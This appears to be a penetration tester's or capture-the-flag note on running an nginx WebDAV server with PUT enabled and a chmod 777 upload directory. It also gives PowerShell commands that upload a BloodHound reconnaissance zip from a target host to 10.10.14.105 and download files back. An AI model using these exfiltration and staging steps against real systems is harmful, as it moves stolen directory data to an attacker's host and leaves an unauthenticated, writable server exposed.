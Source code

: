 # How to create a webdav server with nginx



Go to /etc/nginx/sites-available and create a file called webdav with:

    server{
            listen 8001 default_server;
            server_name webdav.server;
            location / {
                root /var/www/upload;
                dav_methods PUT;
            }
    }


Then create the /var/www/upload directory

    sudo mkdir /var/www/upload
    sudo chmod 777 /var/www/upload

Create a symbolic link in sites-enabled

    cd /etc/nginx/sites-enabled
    sudo ln -s /etc/nginx/sites-available/webdav

Restart nginx

    sudo systemctl restart nginx

Finally check if server is up and listening on port 8001

    ss -nltp

## Upload a file from remote host to the webdav server using powershell

    Invoke-WebRequest -uri http://<webdav_server_ip>:<web_davserver_port>/<file_name_to_be_saved_in_the_server> -Method Put -Infile <path_to_file_we_want_to_upload>

    Invoke-Webrequest -uri http://10.10.14.105:8001/bh.zip -Method Put -Infile 20241112043034_BloodHound.zip

## Download a file to remote host from the webdav server using powershell

    Invoke-Webrequest -uri http://10.10.14.105:8001/test.txt -Method Get -OutFile .\test.txt